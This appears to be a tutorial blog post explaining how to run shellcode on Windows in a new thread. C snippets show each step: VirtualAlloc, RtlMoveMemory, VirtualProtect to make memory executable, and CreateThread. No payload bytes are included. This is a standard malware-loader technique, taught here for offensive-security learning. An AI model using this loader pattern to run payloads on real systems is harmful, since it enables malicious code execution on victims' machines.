 ```yaml
---
layout: post
title:  "Executing payload locally using shellcode - 00"
---
```


### Executing payload locally using shellcode.

## Introduction

If you're delving into the world of shellcode execution, one of the simplest and direct approaches involves initiating its runtime through the creation of a new thread. This technique leverages Windows APIs such as VirtualAlloc, VirtualProtect, and CreateThread to efficiently run your shellcode. The focus here is on simplicity, with no emphasis on evasion or obfuscation techniques. Let's explore the basic steps to get you started on executing shellcode using threads.

## Section 1: Getting Started

Getting Started with Running Shellcode Using Thread

### Utilized functions from the Windows APIs
- **VirtualAlloc:** Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process

- **RtlMoveMemory:** Copies the contents of a source memory block to a destination memory block, and supports overlapping source and destination memory blocks.

- **VirtualProtect:** Changes the protection on a region of committed pages in the virtual address space of the calling process.

- **CreateThread:** Creates a thread to execute within the virtual address space of the calling process.

### Flow of the Program (key steps)

- **Memory Allocation:** A critical step involves reserving and committing memory for the payload using the VirtualAlloc function. The allocated memory, referred to as exec_mem, is initially set to read and write.

```c
void *exec_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);```

- Copy Payload: The payload is then copied to the newly allocated buffer using the RtlMoveMemory function. This sets the stage for the actual execution.

```c
 RtlMoveMemory(exec_mem, payload, payload_len);```

- Memory Protection: To enable execution, the protection of the allocated memory is adjusted using VirtualProtect. The memory is now set to be executable and readable, paving the way for the payload's execution.

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);```

- Thread Creation: Assuming successful memory protection, a new thread (th) is spawned using CreateThread. The thread is tasked with executing the code residing at the address pointed to by exec_mem. To maintain control flow and observe the execution, the program waits for the created thread to finish using WaitForSingleObject.

```c
if (rv != 0) {
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
WaitForSingleObject(th, -1);} ```

## Conclusion:

This basic guide provides a starting point for running shellcode via the creation of a new thread. Remember, this method is straightforward and lacks advanced evasion or obfuscation techniques.

<iframe width="853" height="480" src="https://www.youtube.com/embed/RuDwyIZdduc" title="Process Injection 0 - Executing payload locally using shellcode." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



